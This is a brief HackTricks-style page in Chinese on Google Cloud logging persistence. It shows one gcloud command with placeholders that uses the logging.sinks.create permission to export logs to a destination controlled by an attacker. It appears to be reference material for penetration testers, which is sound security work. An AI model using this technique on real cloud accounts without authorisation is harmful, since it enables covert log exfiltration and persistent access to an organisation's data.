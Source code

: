 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

有关日志的更多信息，请访问：

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

创建一个接收器，将日志导出到攻击者可访问的目的地：
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}

